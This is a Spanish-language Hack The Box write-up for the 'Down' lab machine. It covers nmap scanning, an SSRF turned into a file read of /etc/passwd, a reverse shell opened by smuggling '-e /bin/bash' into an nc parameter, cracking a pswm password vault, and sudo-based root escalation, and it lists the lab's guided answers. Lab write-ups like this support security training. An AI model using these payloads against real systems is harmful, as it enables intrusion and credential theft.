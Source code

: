 ```yaml
---
title: Writeup down - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - down
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina downen Hack The Box.
keywords:
  - writeup down
  - hack the box down
  - resolución máquina down
  - down hack the box
  - htb down
---
```

----
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Down)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=wqPyVCU-vJQ)
- 🧠 **Explicación resumida**: 

----

#easy #linux #nmap #ping #tratamientotty #whatweb #wappalyzer #pswm-decryptor #sudo-l #SSRF #reverseshell #nc-nlvp443 #camuflarespacios

----
# Guided Mode

1)¿Cuántos puertos TCP abiertos están a la escucha en Down?
	2

2)¿Cuál es la cadena del agente de usuario utilizada en las solicitudes HTTP realizadas por la aplicación web?
	curl/7.81.0

3)La aplicación web solo acepta dos protocolos en las URL proporcionadas por los usuarios. Uno es HTTP. ¿Cuál es el otro?
	HTTPS

4)¿Cuál es el nombre de usuario con el ID 1000 en Down?
	aleks

5)¿Cuál es el nombre del parámetro HTTP GET que cambia la funcionalidad del sitio?
	expertmode

6)¿Con qué usuario se ejecuta la aplicación web en Down?
	www-data

*La pregunta anterior es la flag de user.txt*
8)¿Cuál es la ruta completa del archivo propiedad de aleks que contiene las contraseñas cifradas?
	/home/aleks/.local/share/pswm/pswm

9¿Qué módulo de Python utiliza pwsm para cifrar/descifrar datos?
	cryptocode

10)¿Cuál es la contraseña maestra del usuario aleks en pwsm?
	flower

--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.234.87
nmap -p- --open --min-rate 5000 -vvv -n -Pn -sS 10.129.234.87 -oG allPortsTCP
extractPorts allPortsTCP
nmap -sCV -p22,80 10.129.234.87 -oN targetTCP
nmap -sU -n -Pn --top-ports 200 10.129.234.87 -oG allportsUDP
nmap -sU -sCV -p68 10.129.234.87 -oN targetUDP
```

![[Down2.png]]
![[Down3.png]]
![[Down5.png]]
![[Down9.png]]
![[Down8.png]]
*TTL:* Maquina Linux
*Puertos TCP:*
	`22` [[ssh]]
	`80` HTTP

*Puertos UDP:*
	Nada relevante

---
# [[Whatweb-wappalyzer]]


```shell
whatweb http://10.129.234.87/
```
![[Down6.png]]
![[Down7.png]]
No nos da informacion relevante

------
# Intrusion a la maquina con [[SSRF (Server-Side Request Forgery)]] que se transforma en un [[LFI(Local File Inclusion)]] y esto nos ayuda a comprender la pagina y enviarnos una [[Reverse shell]]

Entramos a la pagina web y nos aparece esto donde podemos colocar una pagina para consultar si el sitio activo o no

![[Down12.png]]
Nos ponemos en escucha con [[nc -nlvp 443]] y colocamos nuestra ip `http://10.10.16.69:443` para ver como es la peticion y nos devuelve que esta haciendo un curl y en especifico uisa la version 7.81.0. Por lo tanto vemos que se esta aconteciendo un [[SSRF (Server-Side Request Forgery)]]


![[Down11.png]]

### Interceptamos la peticion con [[Caido]]

![[Down14.png]]
Tenemos que poner que empieze por http o https si no no vamos a poder mandar la petición
Vemos buscando en internet que tenemos que bypasear con un wrapper para convertirlo en un [[LFI(Local File Inclusion)]]
El que nos va a andar es http:// file:///etc/passwd y como podemos ver lee el archivo

![[Down13.png]]
Como no encontramos nada relevante vamos a leer el codigo fuente de la pagina `http:// file:///var/www/html/index.php`

![[Down15.png]]


![[Down16.png]]
![[Down19.png]]
Si bien hay cosas que están todavía url encondeadas, podríamos limpiar todo haciendo sustituciones, pero maso menos se entiende y podemos ver que hay un expertmode, que se tramita por GET. Asi que podemos entrar de esta forma `http://10.129.113.121/index.php?expertmode=tcp`
Tambien vemos que se esta ejecutando como nc -zv $ip $puerto. Asi que podemos añadir el parametro -e y ejecutar una bash `-e /bin/bash` mientras estamos en escucha con [[nc -nlvp 443]] para enviarnos una [[Reverse shell]]
![[Down32.png]]
Ahora la vamos a interceptar con [[Caido]]
Es muy importante que cuando vayamos a hacer la peticion camuflar los espacios de los contrario nos va a arrojar este error
![[Down33.png]]

``ip=10.10.16.69 &port=443%09-e%09/bin/bash`` la forma que yo elegi es esta, que seria url encodeando los espacios. tambien se puede hacer enves de *%09* poner un *+*
![[Down17.png]]
![[Down18.png]]
Ya estamos adentro como www-data y podemos catear la primera flag
![[Down30.png]]

-----

# [[Tratamiento de la TTY]]

---
# Escalada de privilegios al usuario aleks con [[pswm-decryptor]]

Revisando el directorio *home* encontramos al usuario *aleks* y encontramos la carpeta *pswm* que tiene esta contraseña encriptada 
``/home/aleks/.local/share/pswm``
![[Down20.png]]

```
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==www-data@down:/home/aleks/.local/
```
El contenido del archivo con [[echo]] lo vamos a pasar a un archivo que le podemos poner cualquier nombre, yo le voy a poner contraseña `echo "e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==www-data@down:/home/aleks/.local/" > contraseña`

Con [[git clone]] usamos el comando ``git clone https://github.com/seriotonctf/pswm-decryptor`` para descargarnos el repositorio
*Aclaracion: Instalar las librerias necesarias del repositorio si no las tenemos con `pip3 install cryptocode prettytable`*
Ahora vamos a ejecutar el script, pasandole el archivo *contraseña* que creamos antes donde esta la contraseña encriptada y de diccionario el rockyou `python3 pswm-decrypt.py -f contraseña -w /usr/share/wordlists/rockyou.txt`

![[Down21.png]]
Nos da las credenciales
aleks:1uY3w22uc-Wr{xNHR~+E
Ahora con [[ssh]] nos conectamos con `ssh aleks@10.129.113.121 -p 22` y de contraseña ponemos 1uY3w22uc-Wr{xNHR~+E
![[Down22.png]]
Ya estamos dentro como el usuario aleks

-------
# [[Tratamiento de la TTY]]

---
# Escalada al usuario root con [[Abuso de Sudo]] 

```shell
sudo -l
```

![[Down24.png]]
Vemos que podemos usar cualquier comando, siendo cualquier usuario sin proporcionar contraseña. Asi que vamos a ejecutar una bash como sudo usando `sudo /bin/bash`

![[Down23.png]]
Y listo ya somos root y podemos catear la flag restante

![[Down1.png]]




---
# Notas

https://deephacking.tech/php-wrappers-pentesting-web/


---
# Creditos

Writeup Oficial HackTheBox
[Writeup de 0xdf] (https://0xdf.gitlab.io/2025/06/17/htb-down.html)